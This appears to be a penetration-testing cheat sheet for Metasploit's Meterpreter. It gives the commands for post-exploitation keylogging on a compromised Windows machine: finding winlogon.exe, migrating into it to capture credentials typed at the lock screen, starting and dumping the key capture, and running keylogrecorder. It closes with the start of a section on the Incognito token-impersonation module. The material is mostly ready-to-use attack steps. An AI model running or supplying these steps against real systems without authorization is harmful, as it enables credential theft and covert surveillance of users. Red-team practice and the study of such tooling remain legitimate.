 ## keylogging

`keyscan_start` `keylogrecorder`

- If we want to log the credentials typed when the user unlocks the screen we will have to attach the session to the winlogon.exe process (which runs on SYSTEM).
- If we want to dump keystrokes while the user uses applications and so on, we will have to attach to the process explorer.exe (which runs on user level).

Check for winlogon process id

{% highlight PowerShell %}
ps -S winlogon.exe
{% endhighlight %}

Migrate to the process

{% highlight PowerShell %}
migrate -P 420
{% endhighlight %}

Start Keyscan

{% highlight PowerShell %}
keyscan_start
{% endhighlight %}

Lock users terminal and after they have logged back in

{% highlight PowerShell %}
keyscan_dump
{% endhighlight %}

To capture to a sqlite database, ideal for longer captures. Use `keylogrecorder` by Carlos Perez. This script will attempt to migrate for you prior to recording so it is an all in one command. 

`-c` Type of key capture. (0) for user key presses or (1) for winlogon credential capture Default is 0.

`-t` Time interval in seconds between recollection of keystrokes, default 30 seconds.

{% highlight PowerShell %}
run keylogrecorder -c <num>
{% endhighlight %}

## Incognito Meterpreter

Check the user ID before starting

{% highlight PowerShell %}
meterpreter> getuid
{% endhighlight %}

Load module

{% highlight PowerShell %}
meterpreter > use incognito
{% endhighlight %}
